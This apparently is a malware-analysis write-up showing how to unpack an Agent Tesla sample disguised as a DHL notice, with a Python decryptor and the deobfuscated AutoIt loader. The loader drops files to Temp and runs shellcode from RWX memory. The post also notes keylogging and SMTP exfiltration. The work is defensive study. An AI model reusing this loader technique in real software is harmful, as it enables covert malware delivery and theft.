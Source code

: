 ## Agent Tesla AutoIt Deobfuscation

Just a demo on how to unpack Agent Tesla AutoIt compiled executables.

SHA256: afec7242f5c41610ecb994d22fc8243a58866ed6c4c11a1544cca10019fe0a07

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/2414e7d0-34ff-4faf-9654-36835806c848)

`DHL Arrival Notice.exe` looks like a compiled AutoIt script, as Detect-It-Easy suggested and mentions of it in IDA.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/818c3004-a1bf-41b7-9bf2-6ac2ec4b8e42)

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/619e0b78-8deb-46f2-9881-217d66dba20c)

[Exe2Aut](https://exe2aut.com/exe2aut-converter/) is able to decompile this back into a .au3 file for easier analysis. But the script still looks highly obfuscated, with 2655 lines of code.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/99763024-7fd4-48ef-bda6-e37c745c8443)

Majority of the contents especially the for-loop constructs in the middle are dummy code. 

We can see 2 embedded files `renowner` and `palladize` are extracted and moved into the user’s Temp directory. 

I opened them up in HXD, `palladize` looks weird, and `renowner` looks like encrypted.

There’s a few reference to the function `x30qqzpyj` which looks like it is being used for string decryption, since the return values are used as parameters to calls like `Execute`, `DllCall`, etc. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/eac0cdb1-3b1c-4289-8ced-7c4f31990b96)

We can try to translate this function into Python, simulate and print out the results of the decryption for every call we see to it in the script:

```python
import re

def x30qqzpyj(p, b):
    d = len(b)
    v = len(p)
    k = [None] * v
    a = [None] * v
    m = ""

    for h in range(1, v + 1):
        k_index = (ord(b[(h - 1) % d]) * h % v)
        while k[k_index] is not None:
            k_index = (k_index + 1) % v
        k[k_index] = h - 1
    
    for h in range(1, v + 1):
        a[k[h - 1]] = p[h - 1]
    
    m = "".join(a)
    
    # XOR encryption
    j = ""
    for h in range(1, len(m) + 1):
        t = ord(m[h - 1])
        m_ord = ord(b[(h - 1) % d])
        j += chr((t - 5) ^ m_ord)
    
    return j

file_content = ""
with open("afec7242f5c41610ecb994d22fc8243a58866ed6c4c11a1544cca10019fe0a07.au3", "r") as file:
    file_content = file.read()

# Regex to find function calls
pattern = r"x30qqzpyj\((\".*?\"),\s*(\".*?\")\)"
matches = re.findall(pattern, file_content)

# Execute the function with the parameters found
for match in matches:
    param1 = match[0].strip("\"")  # Remove the double quotes if necessary
    param2 = match[1].strip("\"")
    result = x30qqzpyj(param1, param2)
print(f"Parameters: {param1}, {param2} -> Result: {result}")
```

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/fe861d58-bb1b-4f3a-a3d3-8c7efeaf7c68)

Sweet! Now we can plug them into the .au3 script.

```powershell
FileInstall("renowner", @TempDir & "\renowner", 1)
FileInstall("palladize", @TempDir & "\palladize", 1)
Global $o30ytu4gil = Execute('FileRead(FileOpen(@TempDir  & "\palladize"))')
$o30ytu4gil = Execute('StringReplace($O30ytU4giL, "8D6804F867D7E3ED21599F86932DA5673082A29A59B06B261C54E6F1DF089BBB368C973697738FDC88", "")')
$l33eqfulh = DllCall("kernel32", "ptr", "VirtualAlloc", "dword", 0, "dword", BinaryLen($o30ytu4gil), "dword", 0x3000, "04"), "dword", 0x40)
$l33eqfulh = $l33eqfulh[0]
$b374rm9zkrm = DllStructCreate([ & BinaryLen($o30ytu4gil) & ], $l33eqfulh)
DllStructSetData($b374rm9zkrm, 1, $o30ytu4gil)
DllCallAddress("int", $l33eqfulh + 9136)
```

We can see that the beginning of the `palladize` file which starts with `8D6804F867D7E3ED21599F86932DA5673082A29A59B06B261C54E6F1DF089BBB368C973697738FDC88` is removed entirely. Then, a memory allocation with  `PAGE_EXECUTE_READWRITE` permissions, a structure created at the allocated memory address, storing the binary data of `$o30ytu4gil`. Then, it looks like it is calling a function at offset `9136` or `0x23B0`of the memory allocation, so `palladize` probably shellcode. 
Here's what `palladize` looks like with the bytes at the beginning removed:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/298bbbac-29ab-4295-a4d6-85d952f60889)

Looks like the decoded text is still in hex representation. We can convert them into actual hex values first and then open it up in IDA. The entry point would be at offset `0x23B0`.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/7b001c2e-4cbc-4df7-a2a2-64e64801d10d)

Right away, there is a reference to the other file `renower`, which was dropped in the Temp directory. A constant that looks like a key `AIAHL068594BNNETB8SPTXO` is also copied into `v9`, which is passed into `sub22E0` later. 

There is also an API resolving routine before this, let’s try to examine what APIs are being used. In `sub_0`, we can see some dll_names being referenced:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/0c8742c7-374e-42fa-8c7f-e32239430c03)

Then, we can see some hashes being stored into a struct I labelled as `api_hashes`, and right after every hash, is where the actual function address of that hash is being stored in the struct. Luckily, hashdb recognizes the CRC checksums.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/63a3725c-dc43-455e-bf3e-715e1366ebc0)

As you can see in the for loop, `sub_3560` calculates and returns the function addresses for each hash, and the result is stored right after the hash in the same `api_hashes` struct. The resolved addresses are then copied into `v4` back in `sub_23B0`.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/3540a72a-7678-4a6b-b193-71903a33108a)

After resolving the functions and creating structs, looks like it just opens the `renowner` file in the Temp directory.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/1e4c66c6-c7bc-4409-90ae-1e20e0a923a5)

The file contents are read into buffer `v14`, and passed into `sub_22E0` with a key. 

`sub_22E0` just looks like a simple XOR decryption loop. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/b41d0b34-bdf6-47d7-9eb3-50a1f4bb446e)

We can try to decrypt the file with the key. Sure enough, another MZ file! DIE recognized it as a .NET file.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/4fcc56d8-8e90-4656-8da6-3bd1fdc160bb)

Saving the file and opening up in dnSpy, we can see the code for Agent Tesla, some keylogging capabilities:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/7068ed61-f839-4661-b5b3-78c7e08bcf25)

And its config in the `Stu4Un2` class, where data is exfiltrated via SMTP.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/5a6943b1-8491-4116-9e05-531ae154285d)
